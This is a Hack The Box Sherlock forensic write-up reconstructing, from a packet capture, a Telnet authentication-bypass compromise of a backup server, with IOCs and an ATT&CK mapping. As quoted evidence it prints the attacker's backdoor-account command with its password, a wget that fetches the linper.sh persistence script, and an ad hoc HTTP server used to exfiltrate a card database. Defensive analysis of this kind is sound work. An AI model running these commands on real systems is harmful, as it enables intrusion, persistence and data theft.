









# Telly — HTB Sherlock Write-up

**Date:** 2026-06-14  
**Prepared by:** uriel0byte  
**Machine Author:** CyberJunkie  
**Difficulty:** Very Easy  
**Platform:** Hack The Box — Sherlocks  

---

## Executive Summary

A backup server (`backup-secondary`, `192.168.72.136`) was compromised via a Telnet authentication bypass (CVE-2026-24061), giving the attacker immediate root access. The entire attack played out over a single unencrypted Telnet session: backdoor account creation, persistence script download, C2 connection, and file exfiltration. Because Telnet sends everything in plaintext, the PCAP captured the full operation without a packet needing decryption.

---

## Scenario

> *You are a Junior DFIR Analyst at an MSSP that provides continuous monitoring and DFIR services to SMBs. Your supervisor has tasked you with analyzing network telemetry from a compromised backup server. A DLP solution flagged a possible data exfiltration attempt from this server. According to the IT team, this server wasn't very busy and was sometimes used to store backups.*

---

## Artifacts

| Artifact | Type | Description |
|---|---|---|
| `monitoringservice_export_202610AM-11AM.pcapng` | pcapng capture file | One hour of network telemetry from the backup server |

Initial triage with `file` and `ls -lh`: 6.7M pcapng version 1.0, 23,273 packets total.

---

## Investigation

### Phase 1: Vulnerability Identification

**Task 1 — What CVE is associated with the vulnerability exploited in the Telnet protocol?**

> `CVE-2026-24061`

Searched NVD for Telnet authentication bypass CVEs. CVE-2026-24061 affects GNU inetutils through version 2.7 and allows remote authentication bypass via a `-l root` value for the USER environment variable, granting root access without credentials. CVSS score is Critical (CNA: MITRE). It sits in CISA's Known Exploited Vulnerabilities catalog with a remediation deadline of 02/16/2026.

Telnet sends everything unencrypted, so successful exploitation is fully readable in the capture.



---

### Phase 2: Initial Access

**Task 2 — When was the Telnet vulnerability successfully exploited, granting the attacker remote root access?**

> `2026-01-27 10:39:28`

Applied the `telnet` display filter in Wireshark to isolate Telnet packets, then followed the TCP stream on the first one. The stream opens with an Ubuntu 24.04.3 LTS welcome banner and a system information block containing the server's current UTC timestamp.

```
Filter: telnet
Right-click first packet → Follow → TCP Stream
```



---

**Task 3 — What is the hostname of the targeted server?**

> `backup-secondary`

Scrolling down the same TCP stream, the shell prompt appears: `root@backup-secondary:~#`. User is root (bypass worked), hostname is `backup-secondary`. The attacker's post-exploitation commands follow right after: `id`, `ps`, `cd`.



---

### Phase 3: Persistence

**Task 4 — The attacker created a backdoor account. What username and password were set?**

> `cleanupsvc:YouKnowWhoiam69`

The account creation command is visible in plaintext in the stream:

```bash
sudo useradd -m -s /bin/bash cleanupsvc; echo "cleanupsvc:YouKnowWhoiam69" | sudo chpasswd
```

The command runs three times. Between each attempt there are long strings of `[C.[C.[C.` — Telnet encodes Ctrl+C in-band, so every interrupt the attacker sent is captured. This is useful for the timeline: you can see which attempts were interrupted versus which actually completed.



---

**Task 5 — What was the full command used to download the persistence script?**

> `wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh`

Saved the TCP stream to a text file and searched it in a text editor. Manually scrolling works on a stream this size, but saving it first is faster.

```
Wireshark TCP stream window → Save As → save as text
Open file, search for 'wget'
```



---

### Phase 4: C2 & Exfiltration

**Task 6 — The attacker installed remote access persistence using the script. What is the C2 IP address?**

> `91.99.25.54`

After downloading `linper.sh`, the attacker ran `bash linper.sh --enum-defenses` and pressed `i` to enter interactive mode. `linper.sh` includes a built-in C2 setup function; pressing `i` triggers it to beacon out to an operator-specified address. The IP `91.99.25.54` appears in the stream right after the keypress, followed by connection indicators.



---

**Task 7 — At what time was the database file exfiltrated?**

> `2026-01-27 10:49:54`

After the C2 connection, the attacker navigated to `/opt`, ran `ls -la`, found `credit-cards-25-blackfriday.db`, and stood up a temporary HTTP server:

```bash
python3 -m http.server 6932
```

The server's access log printed directly into the Telnet stream:

```
Serving HTTP on 0.0.0.0 port 6932 (http://0.0.0.0:6932/) ...
192.168.72.131 - - [27/Jan/2026 10:49:52] "GET / HTTP/1.1" 200 -
192.168.72.131 - - [27/Jan/2026 10:49:52] code 404, message File not found
192.168.72.131 - - [27/Jan/2026 10:49:52] "GET /favicon.ico HTTP/1.1" 404 -
192.168.72.131 - - [27/Jan/2026 10:49:54] "GET /credit-cards-25-blackfriday.db HTTP/1.1" 200 -
```

The exfiltration timestamp is the final GET with a 200 status.



---

**Task 8 — Find the credit card number for a customer named Quinn Harris in the exfiltrated database.**

> `5312269047781209`

Applied the `http` display filter, found `GET /credit-cards-25-blackfriday.db`, and followed the HTTP stream. Searching "quinn" only returned purchase date and item data. SQLite is binary and doesn't render in Wireshark's stream view.

Exported the file instead:

```
File → Export Objects → HTTP → Select credit-cards-25-blackfriday.db → Save
```

Opened it in DB Browser for SQLite, browsed the `purchases` table, found Quinn Harris's row. First time using DB Browser; once the file was open it took about thirty seconds.





---

## Indicators of Compromise

| Type | Value | Description |
|---|---|---|
| C2 IP | `91.99.25.54` | Attacker's C2 server, beaconed to via linper.sh interactive mode |
| Compromised Host | `backup-secondary` / `192.168.72.136` | Backup server breached via CVE-2026-24061 |
| Attacker IP | `192.168.72.131` | Source of Telnet session and HTTP exfiltration requests |
| Backdoor Account | `cleanupsvc` | Local account created for persistent access |
| Malicious URL | `https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh` | linper.sh pulled via wget |
| Exfiltrated File | `credit-cards-25-blackfriday.db` | SQLite database containing customer credit card data |

---

## MITRE ATT&CK Mapping

| Tactic | Technique ID | Name | Evidence |
|---|---|---|---|
| Initial Access | T1190 | Exploit Public-Facing Application | CVE-2026-24061 Telnet auth bypass granting immediate root |
| Execution | T1059.004 | Command and Scripting Interpreter: Unix Shell | Enumeration and persistence commands run via root shell |
| Persistence | T1136.001 | Create Account: Local Account | cleanupsvc created with useradd, password set via chpasswd |
| Command and Control | T1071.001 | Application Layer Protocol: Web Protocols | linper.sh interactive mode beaconed to 91.99.25.54 |
| Collection | T1005 | Data from Local System | Attacker found and staged credit-cards-25-blackfriday.db from /opt |
| Exfiltration | T1048.003 | Exfiltration Over Alternative Protocol: Unencrypted Non-C2 Protocol | Database served via python3 http.server and pulled via HTTP GET |

---

## Lessons Learned

**Telnet is a forensic goldmine and a security disaster**

Every keystroke, command, and output in this investigation was readable without decryption. The attacker's full session — auth bypass, enumeration, account creation, script download, C2 setup, exfiltration — is sitting in the PCAP in ASCII. This is not a side effect of the CVE; it's how Telnet works. Any Telnet session on a network you can observe is fully transparent. If Telnet is running on a production server in 2026, that is the finding, before you even get to what specific vulnerability is present.

**`[C.` in a Telnet stream means Ctrl+C**

The `[C.[C.[C.` strings between the useradd attempts looked like noise. Telnet transmits control characters in-band, and `[C.` is how Ctrl+C shows up in the raw stream. Knowing this matters for timeline reconstruction: it tells you the attacker interrupted a command rather than letting it complete, which changes how you read what actually ran.

**Read the tool before reading its output**

I didn't understand why an IP appeared mid-script when the attacker pressed `i`. `linper.sh` has an interactive C2 mode and pressing `i` triggers it to beacon out. Reading the script's help or source beforehand would have made that obvious. When an unknown tool appears in a case, figure out what it does before trying to interpret what it produced.

**Export binary files from Wireshark, don't follow the stream**

Following the HTTP stream for the SQLite database returned garbled output because SQLite is binary. File → Export Objects → HTTP extracts the actual file, which you can open in the right tool. For SQLite that's DB Browser. Use the stream view for plaintext payloads; for anything binary, export it.

**Save long TCP streams as text files before searching**

I scrolled manually to find the wget command. On a 95KB stream that's workable; on anything larger it's a liability. Saving the stream as a text file from the Wireshark stream window takes a few seconds and lets you search it properly. Do it on any stream that doesn't fit on one screen.

**The shell prompt tracks the attacker's path**

`root@backup-secondary:~#` gives you the user, hostname, and working directory in one line. As the attacker moved through the filesystem, the prompt changed. Reading PS1 changes through the stream is how you reconstruct the attack path when command output alone is ambiguous.

---

## Proof

Sherlock completion: https://labs.hackthebox.com/achievement/sherlock/2566537/1144

---

*Prepared by uriel0byte | github.com/uriel0byte*
